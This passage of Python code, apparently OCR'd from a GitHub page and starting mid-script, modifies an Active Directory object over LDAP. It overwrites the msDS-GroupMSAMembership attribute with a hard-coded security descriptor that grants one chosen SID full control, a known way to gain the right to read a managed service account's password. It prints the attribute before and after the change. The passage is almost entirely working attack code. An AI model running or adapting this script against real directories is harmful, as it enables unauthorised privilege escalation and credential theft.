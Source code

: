 ```bash
    
    # Displaying current DACL for verification
    print("\n[🔎] Fetching current DACL before modification...")
    conn.search(target_dn, '(objectClass=*)', SUBTREE, attributes=['msDS-GroupMSAMembership'])
    if conn.entries:
        print("[🛡️] Current msDS-GroupMSAMembership:")
        for entry in conn.entries:
            print(entry)

    # Define the security descriptor
    # O:S-1-5-32-544D:(A;;0xf01ff;;;S-1-5-21-323145914-28650650-2368316563-1104)
    print("\n[⚙️] Preparing new security descriptor...")
    security_descriptor = bytes.fromhex(
        "01 00 04 80 14 00 00 00 00 00 00 00 00 00 00 00 24 00 00 00 "
        "01 02 00 00 00 00 00 05 20 00 00 00 20 02 00 00 02 00 2C 00 "
        "01 00 00 00 00 00 24 00 FF 01 0F 00 01 05 00 00 00 00 00 05 "
        "15 00 00 00 BA D0 42 13 9A 2C B5 01 93 A4 29 8D 50 04 00 00"
    )

    changes = {
        'msDS-GroupMSAMembership': [(MODIFY_REPLACE, [security_descriptor])]
    }

    # Apply the changes
    print("\n[⚙️] Modifying msDS-GroupMSAMembership attribute...")
    success = conn.modify(target_dn, changes)

    # Verifying the result
    if success:
        print("[✅] Modification successful!")
        
        # Displaying the modified DACL
        print("\n[🔎] Fetching modified DACL for verification...")
        conn.search(target_dn, '(objectClass=*)', SUBTREE, attributes=['msDS-GroupMSAMembership'])
        if conn.entries:
            print("[🛡️] Modified msDS-GroupMSAMembership:")
            for entry in conn.entries:
                print(entry)
    else:
        print(f"[❌] Modification failed: {conn.result}")

except Exception as e:
    print(f"[🔥] An error occurred: {e}")

finally:
    print("\n[🔚] Closing connection...")
    conn.unbind()
    print("[✔️] Connection closed.")

```
